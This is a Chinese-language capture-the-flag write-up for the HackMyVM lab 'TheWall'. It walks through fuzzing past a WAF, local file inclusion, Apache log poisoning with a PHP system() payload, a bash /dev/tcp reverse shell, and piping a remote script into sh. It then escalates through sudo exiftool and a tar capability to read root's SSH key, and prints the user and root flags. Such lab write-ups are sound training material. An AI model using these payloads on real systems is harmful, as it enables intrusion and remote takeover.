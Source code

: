 # TheWall

2025.02.14 https://hackmyvm.eu/machines/machine.php?vm=TheWall

[video](https://www.bilibili.com/video/BV1VVKweeEnc/?spm_id_from=333.1387.0.0&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.38

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 web 首页没什么信息，gobuster 后出现大量 403，可能存在 WAF，必须降低请求速率，防止出现 403，先用一个小字典进行扫描，有点慢需要等待：

```
gobuster dir -t 10 -k -w ~/tools/dict/fileName5000.txt -u http://192.168.5.38/ -e -x php --delay 3000ms
```

扫描出一个空白 php 文件：http://192.168.5.38/includes.php 看文件名像是有文件包含，需要爆破一下可能存在的参数，也是很慢：

```
ffuf -t 2 -ac -c -rate 10 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://192.168.5.38/includes.php?FUZZ=/etc/passwd
```

找到隐藏参数为 display_page:

```
curl http://192.168.5.38/includes.php?display_page=/etc/passwd
```

可以读取到 /etc/passwd 文件，在探测一下看看能读取到哪些系统文件：

```
ffuf -t 2 -ac -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://192.168.5.38/includes.php?display_page=FUZZ -fs 0
```

最终发现可以读取到 apache 的日志文件，这时可以实现注入 php 代码，然后获得反弹的 shell:

```
curl 'http://192.168.5.38/includes.php?display_page=/var/log/apache2/access.log'
```

kali 上监听 8888 端口，然后注入 php 代码：

```
curl -A '<?php echo 456; system($_GET[1]);?>' http://192.168.5.38/index.php
curl -G --data-urlencode 'display_page=/var/log/apache2/access.log' --data-urlencode '1=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.38/includes.php
```

这时得到了反弹的链接，直接得到了 user flag:

```
www-data@TheWall:/home/john$ cat user.txt
cc5db5e7b0a26e807765f47a006f6221
```

sudo -l 发现 (john : john) NOPASSWD: /usr/bin/exiftool 可以使用这个 exiftoo 将私钥信息植入到 home/john/.ssh 中:

```
cd /tmp
ssh-keygen -t rsa -f ./id_rsa
sudo -u john exiftool -filename=/home/john/.ssh/authorized_keys ./id_rsa.pub
ssh -i id_rsa john@127.0.0.1
```

由于目标上没有 curl、wget、nc 等，使用下面的方法执行 peas：

```
kali上执行：
nc -q 3 -lvnp 8888 < ~/tools/scripts/lin/enum/peas.sh

目标机器上执行：
bash -c 'cat < /dev/tcp/192.168.5.3/8888 | sh'
```

发现 capabilities: /usr/sbin/tar cap_dac_read_search=ep 可以读取敏感文件，发现 / 中有 id_rsa 可能是 root 用户的，尝试读取：

```
/usr/sbin/tar -vcf /tmp/rsa.tar /id_rsa
cd /tmp
tar -xvf rsa.tar
ssh -i id_rsa root@127.0.0.1
```

登陆成功，得到了 root flag：

```
root@TheWall:~# cat r0Ot.txT
4be82a3be9aed6eea5d0cce68e17662e
```

